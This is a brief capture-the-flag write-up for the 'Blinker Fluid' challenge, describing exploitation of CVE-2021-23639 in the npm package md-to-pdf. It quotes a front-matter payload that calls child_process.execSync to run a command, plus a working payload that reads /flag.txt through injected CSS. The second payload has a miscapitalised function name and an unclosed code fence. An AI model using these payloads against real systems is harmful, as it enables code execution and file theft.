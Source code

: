 # Blinker Fluid

This turned out to be a really quick challenge. After downloading the code and googling for exploits on the NPM packages I
found that `md-to-pdf` was vulnerable to a [RCE exploit CVE-2021-23639](https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880). 
I tried a couple of versions of the `---jsn((require("child_process")).execSync("id > /tmp/RCE.txt"))\n---RCE` payload that's 
mentioned in different POCs, but I couldn't get it to work. Then I found this [github issue]([https://github.com/simonhaenisch/md-to-pdf/issues/99](https://github.com/simonhaenisch/md-to-pdf/issues/99#issuecomment-925583328)) 
that shows a different way of writing the exploit. 

This turned out to work 👇
```
---js
{
    css: `body::before { content: "${require('fs').readfileSync('/flag.txt')}"; display: block }`,
}
---
``
